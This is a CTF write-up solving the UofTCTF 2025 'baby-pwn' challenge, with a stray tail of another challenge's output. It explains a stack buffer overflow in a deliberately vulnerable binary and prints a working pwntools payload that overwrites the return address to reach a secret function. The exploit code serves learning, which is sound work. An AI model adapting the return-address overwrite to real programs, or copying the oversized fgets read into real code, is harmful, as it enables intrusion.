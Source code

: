 ```

Mommy! I learned how to pass various input in Linux :)

[*] Closed connection to 127.0.0.1 port 1234
[*] Process '/home/input2/input' stopped with exit code 0 (pid 306485)
input2@pwnable:/tmp/y$
```


<br>

<br>

# baby-pwn UofTCTF 2025

<https://github.com/sajjadium/ctf-archives/tree/main/ctfs/UofTCTF/2025/pwn/baby-pwn>

`setvbuf(stdout, NULL, _IONBF, 0);`

not super relevant but setvbuf() should be used rather than the old setbuf() in order to detect errors

_IONBF means IO no buffer, so things are printed immediately even if there is no \n

The binary prints `Address of secret: 0x401166` but u could also just get it with `info functions` in gdb

`checksec --file=baby-pwn` shows no PIE, so it's always loaded at the same address

The goal is to overwrite the return address (RIP register) of vulnerable_function with the address of the secret function.

```python
void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}
```

offset = 64 bytes for the buffer + 8 bytes for the saved RBP = 72

```
[~/t] 
$ cat payload.py 
from pwn import p64
import sys
payload = b'A'*72 + p64(0x401166)
sys.stdout.buffer.write(payload)

[~/t] 
$ p payload.py | ./baby-pwn 
Welcome to the Baby Pwn challenge!
Address of secret: 0x401166
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAf@
Congratulations! Here is your flag: testflag
```

---
